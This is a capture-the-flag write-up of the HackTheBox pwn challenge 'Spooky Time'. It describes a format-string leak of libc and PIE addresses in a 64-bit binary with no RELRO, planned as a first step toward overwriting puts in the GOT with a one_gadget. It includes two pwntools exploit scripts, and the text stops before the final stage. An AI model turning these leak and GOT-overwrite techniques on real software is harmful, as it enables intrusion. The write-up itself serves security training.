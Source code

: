 # Spooky Time
> Write-up author: jon-brandy
## DESCRIPTION:
Everyone loves a good jumpscare, especially kids or the person who does it.. Try to scare them all!
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, not stripped, and dynamically linked.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f1cbd77-dfeb-48ee-8e73-15e8100c186f)

#### NOTES: There's a libc too..

> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dd076476-71f6-4a4b-935b-d38ee880e664)


2. Remembering there's `No Relro`, hence the concept here might be somehow related to **overwrite Global Offset Table (GOT) with format string vuln**.
3. Also there is PIE which we need to bypass to overwrite the function and there's canary which we need to leak in order to control the return address.
4. Anyway after i decompiled the binary, it seems we don't have to leak the canary, we just need to leak the PIE and calculate the PIE Base.
5. The challenge is very straight forward, we can leak the libc and pie with the second format strings vuln (it accepts up to 299 bytes).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b0376aa6-f831-4333-803b-ff1c39d07fd9)


6. At glance, the function we need to overwrite seems the `puts()`.
7. Let's see if there are any `one_gadget` we can use.

> LIST OF ONE_GADGET AVAIL

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/76cf0edf-ac39-4e80-a9c9-b53385f6bf29)


8. Great we got few, it seems the 3rd and 4th shall be our interest.
9. Let's start leaking the libc and pie.

> UTILIZE THE 2ND FORMAT STRINGS VULN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c8ffcd9c-1c79-4843-afd8-3e3d55a4f520)


10. Based from the result, let's use this 2 potential address.

> 1st box --> potential libc, 2nd box --> potential piebase.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e06de079-13ec-46d9-bc33-0e0debd29b74)


11. Let's calculate them.

#### NOTES: We leak it at the 2nd vuln, but to access it, must at the 1st vuln (so we won't get EOF and we can calc the pie & libc base) 

> SCRIPT 

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[],  *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2],  *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# for remote solve
gdbscript = '''
init-pwndbg
piebase
breakrva 0x1492
continue
'''.format(**locals())

exe = './spooky_time'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = start()
pause()

sh.sendline('%3$p.%51$p')
sh.recvuntil(b'than')
sh.recvline()
get = sh.recvlineS()
print('GRABBED:',get)

potential_libc_leak = get[:14]
#print(potential_libc_leak)
libc_leak = int(potential_libc_leak, 16)
log.info('LIBC_LEAK --> %#0x', libc_leak)
pie_base_leak = get[15:]
pie_leak = int(pie_base_leak, 16)
log.info('PIE_LEAK --> %#0x', pie_leak)
#print(pie_base_leak)

sh.interactive()
```

> CALCULATING THE LIBC_BASE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/df45296e-cae9-4ddd-a2f0-4a1e2a9f2169)


From the **vmmap** result we know the libc_base is --> 0x7f0516c00000

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1d4e4ce5-7a30-4547-90a3-ae466e3099a6)


Calculate result --> 1133111

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/06ffdf84-ffb7-4fdc-b8b7-a9700c6fb1b0)


Let's get the pie_base --> 5056

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9826cfc-c2a2-414a-82d9-0fbcb0c7bc91)


> SCRIPT PT.2

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[],  *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2],  *a, **kw)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# for remote solve
gdbscript = '''
init-pwndbg
piebase
breakrva 0x1492
continue
'''.format(**locals())

exe = './spooky_time'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

library = './glibc/libc.so.6'
libc = context.binary = ELF(library, checksec=False)

sh = start()
pause()

sh.sendline('%3$p.%51$p')
sh.recvuntil(b'than')
sh.recvline()
get = sh.recvlineS()
print('GRABBED:',get)

potential_libc_leak = get[:14]
#print(potential_libc_leak)
libc_leak = int(potential_libc_leak, 16)
log.info('LIBC_LEAK --> %#0x', libc_leak)
pie_base_leak = get[15:]
pie_leak = int(pie_base_leak, 16)
log.info('PIE_LEAK --> %#0x', pie_leak)
#print(pie_base_leak)

elf.address = pie_leak - 0x13c0 #5056 
log.info('Calculated base address --> %#0x', elf.address)

libc.address = libc_leak - 0x114a37 #1133111
log.info('Calculated lib_base --> %#0x', libc.address)

sh.interactive()
```

> RESULT


